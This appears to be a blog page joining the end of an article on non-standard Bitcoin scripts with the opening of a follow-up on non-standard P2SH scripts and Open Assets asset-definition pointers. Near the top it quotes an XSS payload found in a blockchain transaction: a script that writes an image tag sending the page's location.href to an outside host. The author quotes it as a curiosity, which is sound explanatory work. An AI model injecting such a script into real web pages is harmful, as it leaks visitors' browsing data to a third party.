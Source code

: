     x + y + z = 13

And an XSS detector, a hex value is pushed then dropped from the stack and represents the ascii for:

    &lt;script type=’text/javascript’&gt;document.write(‘&lt;img src=\’http://www.trollbot.org/xss-blockchain-detector.php?bc=btc&amp;href=&#39; + location.href + ‘\’&gt;’);&lt;/script&gt;

This output was [https://blockchain.info/tx-index/58459652](https://blockchain.info/tx-index/58459652) with the numbers 4, 6 and 3.


### Conclusion

This post does not cover all the non-standard scripts present in the blockchain but highlight some I found interesting to explain. Some websites, such as [http://bitcoinstrings.com](http://bitcoinstrings.com), or this very complete [http://www.righto.com/2014/02/ascii-bernanke-wikileaks-photographs.html](http://www.righto.com/2014/02/ascii-bernanke-wikileaks-photographs.html) found out other interesting data hidden in the blockchain.


## Non-standard P2SH scripts

In [a previous article](https://medium.com/@alcio/a-look-at-bitcoin-non-standard-outputs-c97f65cccbb6), I explored different forms of non-standard scripts present in the Bitcoin blockchain. In this article, I’ll focus on non-standard scripts use in pay-to-script-hash (P2SH) transactions.

### How does P2SH works?

All bitcoins are secured by a script: a sequence of instructions describing how to spend the bitcoins it secures. When spending bitcoins, arguments resulting in a valid execution of the script must be provided. While the underlying language used for these scripts can handle many different operations (arithmetic, cryptography, string operations, …), only a few standard script templates are broadcasted by Bitcoin peers.

Among them is P2SH, pay-to-script-hash. P2SH Bitcoin addresses (those beginning with a ‘3’) encode the cryptographic hash of a script, instead of encoding a ECDSA public key like the first version of Bitcoin addresses (beginning with a ‘1’). The hashed script, along with the arguments needed for its valid execution, are only revealed when spending the bitcoins sent to a P2SH address.

The main use of P2SH is multisig, 99% of known P2SH scripts use it. The remaining 1% is what I explored.


### Open Assets
The main source of non standard P2SH scripts is the [Open Assets Protocol](https://github.com/OpenAssets/open-assets-protocol/blob/master/specification.mediawiki). Around 78% of the 31.300 non-standard scripts I studied were Open Assets definition pointers.

Open Assets is a colored coins protocol that’s been implemented for Bitcoin. The goal of this protocol is to be able to define and trade real world assets using the Bitcoin blockchain. The first part in this protocol is inserting a reference to the asset definition (a document describing the asset, the conditions attached to it, the issuer’s identity, …) in the blockchain.

The reference is usually the document’s hash160. It’s also possible to create a asset definition pointer by using the document’s URL and its SHA-256. However, this type of asset definition pointer is too big to be put in the marker output like the hash160. The solution is put to use P2SH to include arbitrary data in the blockchain. The marker data is inserted in a standard script but discarded when executing the script, hence making it present in the blockchain but not making the transaction unspendable.

